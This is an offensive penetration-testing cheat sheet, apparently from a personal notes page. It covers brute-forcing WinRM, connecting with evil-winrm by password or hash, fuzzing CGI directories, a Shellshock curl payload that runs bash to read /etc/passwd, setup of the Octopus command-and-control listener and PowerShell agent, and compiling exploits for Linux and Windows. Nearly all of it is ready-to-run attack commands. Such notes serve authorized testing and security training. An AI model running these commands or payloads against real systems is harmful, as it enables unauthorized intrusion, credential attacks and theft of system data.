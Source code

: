 
## WINRM - 5985 - 5986
- Brute force
  - `crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>`
- Connecting
  - `evil-winrm -i <IP> -u <USER> -p <PASSWORD>`
  - `evil-winrm -i <IP> -u <USER> -H <HASH>`


## CGI
- Found CGI scripts
  - `ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGI-XPlatform.fuzz.txt -u <URL>/ccgi-bin/FUZZ -t 50`
  - `ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGIs.txt -u <URL>/ccgi-bin/FUZZ -t 50`
  - `ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/cgi-bin/FUZZ -e .sh,.pl,.cgi -t 100`
  - If a script is found try SHELLSHOCK.
    - SHELLSHOCK
      - `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <URL>/cgi-bin/<SCRIPT>`

- Command and control framework
  ```
  # Download
  git clone https://github.com/mhaskar/Octopus/tree/v1.2

  # Install requirements
  pip install -r requirements.txt

  # Usage
  ./octopus.py

  # Listener (exemple)
  listen_http <BIND_IP> <BIND_PORT> <HOSTNAME> <INTERVAL_IN_SECONDS> <URL> <LISTENER_NAME>
  listen_http 0.0.0.0 80 192.168.1.87 5 test.php listener_1

  # Agent (exemple)
  generate_powershell <LISTENER_NAME>
  generate_powershell listener_1
  ```

- Compiling exploits
- For linux
  - 64 bits
    - gcc -o exploit exploit.c

  - 32 bits
    - gcc -m32 -o exploit exploit.c
- For windows
  - To compile Win32 bit executables: `execute i686-w64-mingw32-gcc -o <FILE.exe> <FILE.c>`
  - To compile Win64 bit executables: `execute x86_64-w64-mingw32-gcc -o <FILE.exe><FILE.c>`
  - To Compiled .cpp source file: `execute i586-mingw32msvc-g++ -o <FILE>.exe <FILE>.cpp`
  - To compile python scripts: `pyinstaller --onefile <SCRIPT.py>`
